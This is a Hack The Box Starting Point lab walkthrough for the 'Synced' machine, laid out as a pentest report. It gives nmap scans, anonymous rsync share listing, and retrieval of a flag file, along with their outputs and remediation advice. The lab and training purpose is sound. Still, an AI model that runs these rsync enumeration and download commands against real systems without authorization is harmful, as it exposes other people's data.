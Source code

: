 # HTB Starting Point Lab Walkthrough: Synced (Linux Box)

## Executive Summary

- **Lab Objective**: Enumerate and exploit an rsync service on the target machine to retrieve a flag, simulating unauthenticated file share access.
- **Target IP**: 10.129.88.100
- **Key Findings**: Identified an rsync service (protocol version 31) on port 873 with an anonymous share (`public`) allowing unauthenticated access. Retrieved a sensitive file (`flag.txt`) from the share.
- **Impact**: In a real-world scenario, unauthenticated rsync access could lead to unauthorized data exposure or modification, risking sensitive information leakage.
- **Recommendations**: Restrict rsync to authenticated users, limit share access, and firewall port 873 to trusted hosts.
- **Completion Date**: July 17, 2025
- **Tools Used**: Nmap, rsync (on Kali Linux)

## Methodology and Scope

This walkthrough follows a standard reconnaissance and exploitation process for the HTB Starting Point lab "Synced." The scope was limited to port scanning, rsync service enumeration, and file access on the provided target IP. No advanced exploitation or privilege escalation was required.

Steps were performed in a controlled lab environment using default Kali tools. Assumptions: Target is a Linux machine running rsync version 31. The `--help` flag provided initial guidance, but external research (e.g., Google) was needed for complete rsync command options.

## Findings

### Finding 1: Rsync Service Identification

- **Description**: Rsync, a file synchronization protocol, was found running on port 873 with protocol version 31. Only one TCP port was open.
- **Severity**: Informational (baseline enumeration).
- **Steps to Reproduce**:
    1. Perform a full port scan using Nmap:
        
        ```bash
        nmap -p- -T4 10.129.88.100
        ```
        
        **Flag Explanation**: `-p-` scans all 65,535 TCP ports; `-T4` sets a fast scan speed (less stealthy but efficient).  
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 15:01 EDT
        Nmap scan report for 10.129.88.100
        Host is up (0.034s latency).
        Not shown: 65534 closed tcp ports (reset)
        PORT    STATE SERVICE
        873/tcp open  rsync
        Nmap done: 1 IP address (1 host up) scanned in 18.38 seconds
        ```
        
    2. Confirm service version on port 873:
        
        ```bash
        nmap -sV -p 873 10.129.88.100
        ```
        
        **Flag Explanation**: `-sV` enables version detection; `-p 873` targets the specific port.  
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 15:04 EDT
        Nmap scan report for 10.129.88.100
        Host is up (0.033s latency).
        PORT    STATE SERVICE VERSION
        873/tcp open  rsync   (protocol version 31)
        Nmap done: 1 IP address (1 host up) scanned in 9.00 seconds
        ```
        
- **Impact**: Confirms rsync is active, enabling targeted enumeration of shares.
- **Evidence**: Nmap scan results above.
- **Remediation**: N/A (informational).

### Finding 2: Unauthenticated Rsync Share Access

- **Description**: The rsync service allows anonymous access to a share named `public` without requiring credentials, revealing its contents.
- **Severity**: Medium (unauthenticated share access).
- **Steps to Reproduce**:
    1. List available rsync shares:
        
        ```bash
        rsync --list-only rsync://10.129.88.100:873/
        ```
        
        **Flag Explanation**: `--list-only` displays available shares without transferring files.  
        Output:
        
        ```bash
        public          Anonymous Share
        ```
        
    2. List files within the `public` share:
        
        ```bash
        rsync --list-only -r rsync://10.129.88.100:873/public
        ```
        
        **Flag Explanation**: `--list-only` shows file listings; `-r` enables recursive listing of directories.  
        Output:
        
        ```bash
        drwxr-xr-x          4,096 2022/10/24 18:02:23 .
        -rw-r--r--             33 2022/10/24 17:32:03 flag.txt
        ```
        
- **Impact**: Unauthenticated access to rsync shares risks unauthorized file access or modification.
- **Evidence**: Rsync share and file listing above.
- **Remediation**: Configure rsync to require authentication; restrict share access to authorized users.

### Finding 3: File Retrieval from Rsync Share

- **Description**: Retrieved a sensitive file (`flag.txt`) from the `public` share using rsync, confirming full read access.
- **Severity**: Critical (successful data exfiltration).
- **Steps to Reproduce**:
    1. Download the flag file from the `public` share:
        
        ```bash
        rsync -Wv rsync://10.129.88.100:873/public/flag.txt ~/htb
        ```
        
        **Flag Explanation**: `-W` copies whole files without delta transfer; `-v` enables verbose output for progress.  
        Output:
        
        ```bash
        flag.txt
        sent 43 bytes  received 131 bytes  23.20 bytes/sec
        total size is 33  speedup is 0.19
        ```
        
    2. Verify the downloaded file locally:
        
        ```bash
        ls
        ```
        
        Output:
        
        ```bash
        academy-regular.ovpn  mongodb-org-shell_3.6.23_amd64.deb  starting_point
        admin.txt            mongod.md                           starting_point_messorym.ovpn
        flag.txt             mongosh-2.3.2-linux-x64             synced.md
        gobuster_results.txt mongosh-2.3.2-linux-x64.tgz
        ```
        
    3. View the flag contents:
        
        ```bash
        cat flag.txt
        ```
        
        Output:
        
        ```bash
        72eaf5344ebb84908ae543a719830519
        ```
        
- **Impact**: Access to sensitive files demonstrates a real-world data breach scenario, potentially exposing critical information.
- **Evidence**: Command outputs and flag value above.
- **Remediation**: Remove sensitive files from rsync shares; implement strict permissions and authentication.

## Recommendations

- Configure rsync to require authentication (e.g., using `--password-file` or SSH-based access).
- Restrict network access to port 873 using firewall rules, allowing only trusted hosts.
- Regularly scan for exposed rsync services using tools like Nmap or rsync-specific scripts (e.g., `rsync-list-modules.nse`).
- For labs like this, explore advanced rsync enumeration with tools like `rsync` over SSH or Metasploit’s `auxiliary/scanner/rsync/modules` module.

## Appendices

- **Raw Notes/Logs**: (Optional—attach full session logs if sharing.)
- **Screenshots**: (Add here if available, e.g., terminal captures.)
- **Key Takeaway**: The `--help` flag is a starting point for tool usage, but external resources (e.g., Google) are often necessary to uncover complete command options, especially for tools like rsync.